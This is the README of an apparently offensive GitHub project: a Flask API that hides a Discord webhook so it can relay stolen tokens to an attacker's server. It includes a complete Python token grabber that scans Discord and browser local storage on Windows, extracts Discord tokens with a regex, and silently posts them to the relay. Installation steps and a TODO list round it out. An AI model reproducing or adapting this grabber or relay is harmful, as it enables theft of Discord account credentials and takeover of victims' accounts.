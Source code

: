 # Discord Token Grabber API

 A Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1'  # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# set paths to where tokens are stored
localappdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
paths = {
    'Discord': os.path.join(roaming, 'Discord'),
    'Discord Canary': os.path.join(roaming, 'DiscordCanary'),
    'Discord PTB': os.path.join(roaming, 'DiscordPTB'),
    'Google Chrome': os.path.join(localappdata, 'Google', 'Chrome', 'User Data', 'Default'),
    'Opera': os.path.join(roaming, 'Opera Software', 'Opera Stable'),
    'Brave': os.path.join(localappdata, 'BraveSoftware', 'Brave-Browser', 'User Data', 'Default'),
    'Yandex': os.path.join(localappdata, 'Yandex', 'YandexBrowser', 'User Data', 'Default')
}

# grab tokens
tokens = []

for platform, path in paths.items():
    path = os.path.join(path, 'Local Storage', 'leveldb')

    if os.path.exists(path) is False:
        continue

    for item in os.listdir(path):
        if (item[-4:] in ('.log', '.ldb')) is False:
            continue

        with open(os.path.join(path, item), errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

# send tokens to the webhook protection API that will validate them and send them to your Discord server over webhook
try:
    data = {'secret': SECRET, 'tokens': tokens}

    # note that using json=data, requests module automatically sets the Content-Type header to application/json
    requests.post(f'http://{API_IP}:{API_PORT}/grab', json=data)
except:
    pass
```

Don't judge the token grabber. I made it simple to understand, not efficient : P

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py` (It's recommened to set up a proper production WSGI server)

## TODO

* [ ] Set up a MySQL database to store tokens, used to prevent dupes
* [ ] IP-address based rate limit to prevent abusers from flooding the API
* [ ] Support multiple tokens in a single request using `,` seperator

